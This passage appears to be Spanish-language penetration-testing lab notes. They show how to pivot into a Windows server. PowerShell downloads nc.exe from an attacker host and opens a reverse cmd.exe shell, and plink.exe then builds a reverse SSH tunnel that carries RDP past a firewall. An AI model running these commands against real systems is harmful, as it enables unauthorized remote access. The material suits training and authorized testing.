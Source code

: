```
powershell wget -Uri http://192.168.45.211/nc.exe -OutFile C:\Windows\Temp\nc.exe; C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.211 4446
```

Y en nuestra Kali recibiremos una conexión proveniente del host Windows:

```
...
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

Ahora, transportamos sobre nuestro host Windows la utilidad 'plink.exe' desde nuestra kali:

```
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 
```

<br />

```
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.45.211/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.45.211/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```

Una vez tenemos el ejecutable en nuestra máquina, recordemos que la MULTISERVER03 ofrece el servicio RDP de forma que podemos usar Plink.exe para crear un túnel SSH sobre el que encapsular una conexión RDP y obtener acceso al GUI del servidor bypaseando el firewall.

Primero, habilitamos el servicio SSH en nuestra máquina Kali pues la conexión se tuneliza a través de SSH:

```
kali@kali:~$ sudo systemctl start ssh 
```

Seguidamente introducimos el siguiente comando:

```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.211
C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.211
The host key is not cached for this server:
  192.168.118.4 (port 22)
You have no guarantee that the server is the computer
you think it is.
The server's ssh-ed25519 key fingerprint is:
  ssh-ed25519 255 SHA256:q1QQjIxHhSFXfEIT4gYrRF+zKr0bcLMOJljoINxThxY
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n, Return cancels connection, i for more info) y
Using username "kali".
Linux kali 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
```
